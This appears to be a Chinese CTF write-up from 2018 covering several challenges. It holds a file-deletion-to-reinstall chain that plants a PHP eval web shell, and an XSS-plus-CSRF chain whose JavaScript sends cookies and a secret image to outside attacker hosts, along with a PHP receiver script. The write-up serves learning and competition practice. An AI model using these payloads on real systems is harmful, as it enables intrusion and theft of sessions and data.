 ```yaml
---
title: 巅峰极客ctf
tags: ctf
abbrlink: 46785
date: 2018-07-23 20:33:53
---
```


## pentest

御剑扫描

经过目录扫描，发现`file/file.php`

根据网页最后提示:

```
DELETE FILE
Sorry,no filename!
```

可以猜测存在任意文件删除漏洞。

首先我们删除`install.lock`

```
http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/file/file.php?file=...//config/install.lock
```
重装metinfo，重装的时候数据库名填写 

```
met#*/@eval($_GET[1]);/*
```

数据库密码为`root`

执行shell即可

```
http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/config/config_db.php?1=system(%27ls%27);
```
## mysqlonline

首先通过mysql查询，经过hex编码在输出，可以造成xss。

```
select 0x3c7363726970743e616c6572742831293c2f7363726970743e
```

结合CSRF即可打后台:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://106.75.35.230:9001/runsql.php " method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

```
0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e
=> 
<script src=http://ip/xss/1.js></script>
```

js的内容:

```
self.location = 'http://123.207.90.143/x.php?v=aaa'+btoa(document.cookie)+'aaa';
```

修改CSRF payload:

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/runsql.php" method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

通过以上操作，可以发现后台有`admin_zzzz666.php`页面

但是admin_zzzz666.php并无flag，只有`./static/img/iamsecret_555.jpg `

修改payload,也就是vps上的js文件，利用canvas获取图片:

```
var love={ajax:function(){var a;try{a=new XMLHttpRequest()}catch(e){try{a=new ActiveXObject("Msxml2.XMLHTTP")}catch(e){try{a=new ActiveXObject("Microsoft.XMLHTTP")}catch(e){return false}}}return a},req:function(b,c,d,e){d=(d||"").toUpperCase();d=d||"GET";c=c||"";if(b){var a=this.ajax();a.open(d,b,true);if(d=="POST"){a.setRequestHeader("Content-type","application/x-www-form-urlencoded")}a.onreadystatechange=function(){if(a.readyState==4){if(e){e(a)}}};if((typeof c)=="object"){var f=[];for(var i in c){f.push(i+"="+encodeURIComponent(c[i]))}a.send(f.join("&"))}else{a.send(c||null)}}},get:function(a,b){this.req(a,"","GET",b)},post:function(a,b,c){this.req(a,b,"POST",c)}};

function getBase64(img){
    function getBase64Image(img,width,height) {//width、height调用时传入具体像素值，控制大小 ,不传则默认图像大小
        var canvas = document.createElement("canvas");
        canvas.width = width ? width : img.width;
        canvas.height = height ? height : img.height;

        var ctx = canvas.getContext("2d");
        ctx.drawImage(img, 0, 0, canvas.width, canvas.height);
        var dataURL = canvas.toDataURL();
        return dataURL;
    }
    var image = new Image();
    image.crossOrigin = '';
    image.src = img;
    return new Promise((resolve,reject)=>{
        image.onload =function (){
            resolve(getBase64Image(image));//将base64传给done上传处理
        }
    });
}

getBase64('http://127.0.0.1/static/img/iamsecret_555.jpg').then(base64 => {
    love.post(
      "http://ip/xss/x.php",
      "v="+base64,
      function(res){
        console.log(res);
      }
    );
}, err => {
    console.log(err)
})
```

vps上xss.php:

```
<?php
header('Access-Control-Allow-Origin: *');
file_put_contents('log.txt',$_POST['v']);
```

最后会获取到图片，当然这个过程中+会被转换为空格，所以后面还要转换回来。 

## Dedefun

```
参考网址：
https://paper.tuisec.win/detail/d1053143f127862
https://xz.aliyun.com/t/2469#toc-3
```

**主要用来找后台目录**

## A simple CMS

**利用缓存getshell**

慢慢分析吧。挖坑



